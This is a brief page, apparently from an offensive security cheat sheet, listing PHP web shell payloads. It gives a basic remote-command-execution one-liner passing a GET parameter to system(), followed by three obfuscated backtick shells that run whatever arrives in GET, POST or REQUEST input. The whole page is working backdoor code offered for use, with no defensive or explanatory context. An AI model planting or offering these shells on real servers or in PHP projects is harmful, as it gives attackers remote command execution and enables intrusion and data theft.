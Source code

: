 # PHP

### Basic RCE



{% code fullWidth="false" %}
```php
<?php system($_GET["cmd"]);?>
```
{% endcode %}

### Obfuscated Web Shell



```php
<?=`$_GET[0]`?>
```



```php
<?=`$_POST[0]`?>
```



```php
<?=`{$_REQUEST['_']}`?>
```

